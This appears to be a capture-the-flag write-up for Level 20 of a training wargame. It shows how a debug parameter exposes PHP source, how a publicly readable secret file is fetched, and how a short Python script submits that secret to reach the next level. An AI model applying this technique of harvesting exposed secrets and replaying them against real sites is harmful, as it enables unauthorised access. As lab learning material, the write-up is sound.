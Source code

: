 # Level-20

Level20-21 (https://matrix.voorivex.academy/dang3r-finishEd-all-cleared)

send this request:

```text
https://matrix.voorivex.academy/dang3r-finishEd-all-cleared/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if ($_GET["code"] == file_get_contents("secret-m")) {
    require_once("next.php");
    die($next);
}

?>
```

get the content of the `secret-m` file which is :

```text
MatrixHasYou...☺..........
```

i wrote a python script to send whatever format the previous string has as a parameter in
new request :

```python
import requests

url = 'https://matrix.voorivex.academy/dang3r-finishEd-all-cleared/secret-m'
res = requests.get(url)
result = res.text
print(result)
url2 = f'https://matrix.voorivex.academy/dang3r-finishEd-all-cleared/?code={result}'
res2 = requests.get(url2)
print(res2.text)
```

and i got this:

```text
/agent-fight-nuM-onE
```

now go to:

```text
https://matrix.voorivex.academy/agent-fight-nuM-onE
```
